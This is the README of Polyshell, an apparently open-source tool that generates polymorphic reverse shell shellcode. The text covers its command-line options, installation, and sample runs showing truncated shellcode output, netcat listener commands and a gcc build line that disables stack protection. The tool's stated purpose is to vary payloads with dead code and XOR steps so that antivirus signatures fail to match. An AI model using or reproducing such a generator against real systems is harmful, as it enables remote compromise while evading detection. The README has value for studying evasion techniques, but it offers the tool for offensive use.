 
# Polyshell

Simple polymorphic reverse shell generator.\
\
This tool will randomly choose registry between `r8` to `r15` to handle the different file descriptors for the reverse shell.\
 It will also put some dead code within the shellcode so that none of the generated shell's signatures can't be identical.

```

     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell

    
usage: main.py [-h] -i IP -p PORT [-e {big,little}] [-x XORNB] [-b] [-hs] [-v] [-o OUTFILE]

optional arguments:
  -h, --help            show this help message and exit
  -i IP, --ip IP        IPv4 Address
  -p PORT, --port PORT  Port to bind
  -e {big,little}, --endian {big,little}
                        Endianness of the target, default=little
  -x XORNB, --xornb XORNB
                        Number of xor to put, default=10
  -b, --build           Compile the C file
  -hs, --hide-shellcode
                        Hide the shellcode printing
  -v, --verbose         Add verbosity printing
  -o OUTFILE, --outfile OUTFILE
                        Outfile shellcode's namee
```
## Requirements

`python3.X` and additionnaly `gcc` if you desire to compile the C file.


## Installation

```bash
git clone https://github.com/Vadimador/polyshell
cd polyshell
./main.py
```

You can add the polyshell main.py to path one of your PATH to execute it from anywhere.
```
cd polyshell
ln -s $(readlink -f main.py) ~/.local/bin/polyshell
```
    
## Run

### Create a reverse shell and build it, save the shellcode in a TXT file

```bash
┌[t4yki@d3v]
└[~]> polyshell -i 127.0.0.1 -p 6666 -b


     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell


 [!] Shellcode generated :

\x48\x31\xc0\x48\x31...\x0f\x05


 [+] Compiled shellcode : reverse_shell
 [+] Start a listener : nc -lvnp 6666
 ```

 ### Create a reverse shell and modify the number of xor and hide shellcode printing
```bash
┌[Vadimador@d3v] 
└[~]> polyshell -i 127.0.0.1 -p 1024 -x 54 -b -v



     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell


 [!] Shellcode generated :

\x4d\x31\xc9\x4d\x31\xf6...\xff\x0f\x05    


 [+] Compiled shellcode : reverse_shell
 [+] Start a listener : nc -lvnp 1024
```

### Create a reverse shell but don't build it, just save it to C and TXT file.

```bash
┌[Ninuuu@d3v] 
└[~]> polyshell -i 127.0.0.1 -p 4444 -x 88 -v


     ▄▄▄·      ▄▄▌   ▄· ▄▌.▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌
    ▐█ ▄█▪     ██•  ▐█▪██▌▐█ ▀. ██▪▐█▀▄.▀·██•  ██•
     ██▀· ▄█▀▄ ██▪  ▐█▌▐█▪▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪
    ▐█▪·•▐█▌.▐▌▐█▌▐▌ ▐█▀·.▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
    .▀    ▀█▄▀▪.▀▀▀   ▀ •  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀

       Simple polymorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/polyshell


 [!] Shellcode generated :

\x4d\x31\xc9\x4d\x31...\x0f\x05


 [+] C file to test the shellcode : reverse_shell.c
 [+] Build : gcc reverse_shell.c -o shell -fno-stack-protector -z execstack -no-pie
```
